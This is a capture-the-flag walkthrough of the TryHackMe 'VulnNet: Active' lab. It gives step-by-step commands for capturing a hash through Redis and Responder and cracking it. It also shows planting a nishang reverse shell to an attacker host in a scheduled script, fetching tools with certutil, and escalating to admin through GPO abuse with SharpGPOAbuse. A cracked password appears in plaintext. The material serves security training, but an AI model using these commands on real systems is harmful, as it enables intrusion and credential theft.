 # VulnNet: Active

**Room Link:** [https://tryhackme.com/r/room/vulnnetactive](https://tryhackme.com/r/room/vulnnetactive)

## **Scans** <a href="#scans" id="scans"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

## **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

No results. Couldn't login anonymously.&#x20;

**Kali**

```
smbclient -L //$VICTIM/ 
```

## **TCP/6379 - Redis** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

Added active.thm

**Kali**

```
redis-cli -h active.thm
```

**Kali(redis-cli)**

```
config get *
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
responder -I ens5 -dvw  
```

**Kali(redis-cli)**

```
eval "dofile('//$KALI/share')" 0
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

**Kali**

```
smbclient -L //$VICTIM/ -U enterprise-security
Password: sand_0873959498
```

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

#### Download files <a href="#download-files-1" id="download-files-1"></a>

**Kali**

```
smbclient \\\\$VICTIM\\Enterprise-Share -U enterprise-security
Password: sand_0873959498
```

**Kali(smbclient)**

```
ls
mget *
```

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat PurgeIrrelevantData_1826.ps1
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cp Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

**Upload payload**

**Kali(smbclient)**

```
put PurgeIrrelevantData_1826.ps1
```

After a few moments we get a connection

**Kali**

<pre><code><strong>rlwrap nc -lvnp 4444
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

### Download SharpHound PS1

This failed because when running the script it would just hang and I had to reset the server. So After I tried with the exe.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.ps1 .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.ps1 SharpHound.ps1
powershell -ep bypass
.\SharpHound.ps1 
```

### Download SharpHound EXE

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.exe SharpHound.exe
SharpHound.exe
```

### **Transfer results to Kali**

**Victim(Powershell)**

```
copy 20240405092615_BloodHound.zip C:\Enterprise-Share\
```

**Kali(smbclient)**

```
get 20240405092615_BloodHound.zip
```

### BloodHound  <a href="#bloodhound-installation" id="bloodhound-installation"></a>

**Kali #1**

```
neo4j console
```

**Kali #2**

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Find Shortest Paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our user enterprise-security has write access to the GPO called "SECURITY-POL-VN"

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SharpGPOAbuse

**Kali**

```
git clone https://github.com/byronkg/SharpGPOAbuse.git
cp SharpGPOAbuse/SharpGPOAbuse-master/SharpGPOAbuse.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpGPOAbuse.exe SharpGPOAbuse.exe
```



This task is running one command which is to add our user enterprise-security to the administrator group

**Victim(Powershell)**

```
 .\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

After the change is successful we just need to push the GPU for it to work.

**Victim(Powershell)**

```
 gpupdate /force
```

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
psexec.py enterprise-security:sand_0873959498@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


